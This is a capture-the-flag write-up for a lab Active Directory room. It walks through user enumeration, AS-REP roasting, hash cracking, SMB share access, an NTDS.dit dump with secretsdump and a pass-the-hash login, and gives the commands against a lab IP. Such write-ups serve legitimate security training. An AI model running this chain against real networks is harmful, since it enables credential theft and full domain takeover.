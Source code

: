 # Write-up: [Attacktive Directory — Enumeration & Exploitatio](https://tryhackme.com/room/attacktivedirectory)

This write-up covers the process of enumerating and exploiting an Active Directory (AD) environment using various tools such as enum4linux, kerbrute, GetNPUsers.py, john, and secretsdump.py. The objective is to extract credentials and escalate privileges to domain admin access.

## Enumeration Phase
What tool will allow us to enumerate port 139/445? ```enum4linux```

Run the following:

```python
enum4linux 10.10.57.254
```
We discover key details:

```python
Domain Name: THM-AD  
Domain SID: S-1-5-21-3591857110-2884097990-301047963  
[+] Host is part of a domain (not a workgroup)
```
What invalid TLD do people commonly use for their Active Directory Domain? ```.local```

Now we enumerate usernames using Kerbrute.

Give execution permission to the binary:

```python
chmod +x kerbrute_linux_amd64
```
Run a user enumeration scan:

```python
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.57.254 usernames.txt
```
Discovered users:

```python
svc-admin@spookysec.local  
backup@spookysec.local  
administrator@spookysec.local  
JAMES@spookysec.local  
Robin@spookysec.local  
Administrator@spookysec.local  
Darkstar@spookysec.local  
Paradox@spookysec.local  
DARKSTAR@spookysec.local  
ori@spookysec.local  
ROBIN@spookysec.local  
```
## Exploitation Phase

After collecting valid usernames, we attempt an AS-REP Roasting attack — a Kerberos vulnerability affecting accounts with the setting "Does not require Pre-Authentication".

We use ```GetNPUsers.py``` from Impacket to retrieve roastable accounts.

```python
PYTHONPATH=.. python3 GetNPUsers.py spookysec.local/ -usersfile /home/kali/Downloads/users.txt -dc-ip 10.10.57.254 -no-pass
```
We successfully retrieve:

```python
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:da04bdcdd500c358...
```
Identify hash type:

```python
Hashcat Mode: 18200 - Kerberos 5, etype 23, AS-REP
```
Save it to ```hash.txt``` and crack with ```john```:

```python
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
## SMB Enumeration

Use ```smbclient``` to access shares with cracked credentials:

```python
smbclient -L 10.10.57.254 -U svc-admin
```
Found shares:

```python
ADMIN$  
backup  
C$  
IPC$  
NETLOGON  
SYSVOL
```
Connect to the backup share:

```python
smbclient \\\\10.10.57.254\\backup -U svc-admin
```
Locate and retrieve:

```python
backup_credentials.txt
```
Base64-decode the contents to reveal further credentials.

## NTDS.dit Dump

What method allowed us to dump the NTDS.dit file? ```DRSUAPI```

Use Impacket's ```secretsdump.py``` to extract all NTLM password hashes:

```python
python secretsdump.py spookysec.local/backup:backup2517860@10.10.57.254
```
Obtain the Administrator hash, then log in via ```evil-winrm```:

```python
evil-winrm -i 10.10.57.254 -u Administrator -H 0e036...0bcb4fc
```
## Conclusion

Through systematic enumeration and exploitation using tools like Kerbrute, GetNPUsers, John, and Impacket’s secretsdump, we escalated from user access to full domain admin privileges in an Active Directory environment.


